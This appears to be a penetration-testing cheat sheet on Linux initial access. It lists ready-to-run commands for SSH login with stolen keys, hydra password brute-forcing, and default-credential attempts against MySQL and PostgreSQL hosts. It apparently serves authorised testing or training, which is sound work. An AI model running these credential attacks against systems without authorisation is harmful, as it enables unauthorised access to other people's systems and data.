 # Linux Initial Access
---

## Service Exploitation for Initial Access

### SSH Access

**With Stolen Keys (from NFS, backups, etc.):**
```bash
# Use key found during reconnaissance
chmod 600 stolen_key
ssh -i stolen_key username@TARGET
```

**With Found Credentials (from SNMP, configs, etc.):**
```bash
# Test credentials
ssh username@TARGET
# Password: [found password]
```

**Brute Force (LAST RESORT):**
```bash
# Only if you have good username and small password list
hydra -l username -P passwords.txt ssh://TARGET -t 4
```

---

## Database Access

### MySQL/MariaDB

```bash
# Try default/no credentials (from reconnaissance findings)
mysql -h TARGET -u root
mysql -h TARGET -u root -proot
mysql -h TARGET -u root -ppassword

# With found credentials
mysql -h TARGET -u dbuser -p'FoundPassword123!'
```

### PostgreSQL

```bash
# Try default credentials
psql -h TARGET -U postgres
psql -h TARGET -U postgres -W
# Password: postgres (or blank)

# With found credentials
psql -h TARGET -U dbadmin -W
```
